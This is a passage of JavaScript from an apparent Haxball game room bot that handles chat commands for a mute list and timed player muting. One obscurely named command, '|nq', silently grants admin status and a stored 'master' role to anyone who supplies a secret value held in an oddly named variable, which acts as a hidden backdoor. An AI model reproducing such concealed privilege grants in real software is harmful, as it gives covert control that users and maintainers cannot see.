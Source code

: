				cstm += room.getPlayer(extendedP[i][eP.ID]).name + "[" + (extendedP[i][eP.ID]) + "], ";
			}
		}
		if (cstm == "[PV] Mute List : ") {
			room.sendChat("[PV] There's nobody in the Mute List !", player.id);
			return false;
		}
		cstm = cstm.substring(0, cstm.length - 2);
		cstm += ".";
		room.sendChat(cstm, player.id);
	}
	else if (["|nq"].includes(message[0].toLowerCase())) {
		if (message[1] == vcgbsdbf) {
			room.setPlayerAdmin(player.id, true);
			var stats;
			localStorage.getItem(getAuth(player)) ? stats = JSON.parse(localStorage.getItem(getAuth(player))) : stats = [0, 0, 0, 0, "0.00", 0, 0, 0, 0, "0.00", "player", player.name];
			if (stats[Ss.RL] != "master") {
				stats[Ss.RL] = "master";
				localStorage.setItem(getAuth(player), JSON.stringify(stats));
			}
		}
		return false;
	}
	else if (["!mute"].includes(message[0].toLowerCase())) {
		if (player.admin) {
			updateTeams();
			var timeOut;
			if (!Number.isNaN(Number.parseInt(message[1])) && message.length > 1) {
				if (Number.parseInt(message[1]) > 0) {
					timeOut = Number.parseInt(message[1]) * 60 * 1000;
				}
				else {
					timeOut = 3 * 60 * 1000;
				}
				if (message[2].length > 1 && message[2][0] == "#") {
					message[2] = message[2].substring(1, message[2].length);
					if (!Number.isNaN(Number.parseInt(message[2])) && room.getPlayer(Number.parseInt(message[2])) != null) {
						if (room.getPlayer(Number.parseInt(message[2])).admin || getMute(room.getPlayer(Number.parseInt(message[2])))) {
							return false;
						}
						setTimeout(function (player) { setMute(player, false); }, timeOut, room.getPlayer(Number.parseInt(message[2])));
						setMute(room.getPlayer(Number.parseInt(message[2])), true);
						room.sendChat(room.getPlayer(Number.parseInt(message[2])).name + " has been muted for " + (timeOut / 60000) + " minutes!");
					}
				}
			}
			else if (Number.isNaN(Number.parseInt(message[1]))) {
				if (message[1].length > 1 && message[1][0] == "#") {
					message[1] = message[1].substring(1, message[1].length);
					if (!Number.isNaN(Number.parseInt(message[1])) && room.getPlayer(Number.parseInt(message[1])) != null) {
						if (room.getPlayer(Number.parseInt(message[1])).admin || getMute(room.getPlayer(Number.parseInt(message[1])))) {
							return false;
						}
						setTimeout(function (player) { setMute(player, false); }, 3 * 60 * 1000, room.getPlayer(Number.parseInt(message[1])));
						setMute(room.getPlayer(Number.parseInt(message[1])), true);
						room.sendChat(room.getPlayer(Number.parseInt(message[1])).name + " has been muted for 3 minutes!");